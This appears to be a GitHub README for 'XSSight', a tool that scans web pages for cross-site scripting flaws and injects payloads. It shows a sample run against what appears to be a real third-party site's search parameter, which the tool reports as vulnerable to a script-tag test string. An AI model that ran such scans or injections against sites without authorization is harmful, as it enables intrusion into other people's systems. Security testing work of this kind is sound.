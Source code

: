 # XSSight
It is script that can scan for XSS vulnerabilites and inject payloads.
Example:
	    .-'^`\                                        /`^'-.
	  .'   ___\                                      /___   `.
	 /    /.---.                                    .---.\    `
	|    //     '-.  ___________________________ .-'     \    |
	|   ;|         \/--------------------------//         |;   |
	\   ||       |\_)          XSSight         (_/|       ||   /
	 \  | \  . \ ;  |     By Team Ultimate     || ; / .  / |  /
	  '\_\ \ \ \ \ |                          ||/ / / // /_/'
	        \ \ \ \|       Beta Release       |/ / / //
	         `'-\_\_\     teamultimate.in     /_/_/-'`
	                '--------------------------' 
 These types of URLs are accepted
 Example: http://www.dwebsite.com/ 
 Example: http://www.website.com= 
 Example: http://www.website.com? 

 Enter target url: http://dramaonline.pk/search.php?q=    
------------------------------
Select an operation:
------------------------------
 1. XSS Scanner
 2. Payload Injector
 Enter your choice [1-2] : 1
Date: Mon, 27 Mar 2017 14:35:00 GMT
Server: Apache/2.2.3 (CentOS)
Cache-control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Set-Cookie: PHPSESSID=b7amfe25hf7eradfobmh6q39a3; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Vary: Accept-Encoding,User-Agent
Connection: close
Content-Type: text/html; charset=UTF-8

* scanning GET parameter 'q'
 (i) GET parameter 'q' appears to be XSS vulnerable ("<script>.'.xss.'.</script>", enclosed by <script> tags, inside single-quotes, no filtering)
